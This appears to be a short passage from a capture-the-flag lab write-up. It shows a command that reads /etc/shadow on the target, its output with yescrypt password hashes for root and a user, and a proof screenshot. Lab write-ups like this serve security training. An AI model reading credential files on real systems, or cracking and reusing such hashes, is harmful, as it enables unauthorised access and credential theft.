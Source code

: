 ```sh
grep -F '$' /etc/shadow
```
- output
```txt
root:$y$j9T$u0cgimzO/m87OQdCkETl10$mTZSmVXBn10OJT7qVqvlEr7OwC0QppltyX33WH1esn7:20229:0:99999:7:::
ike:$y$j9T$iACv1qBHXsR1j0yqIsVwY.$udBwggnZtUPt/0TNMIhsU4TDrQm2tCzTr6xUE0ilPQ4:20292:0:99999:7:::
```

---
# Proof
![](<./attachments/Expressway-1.png>)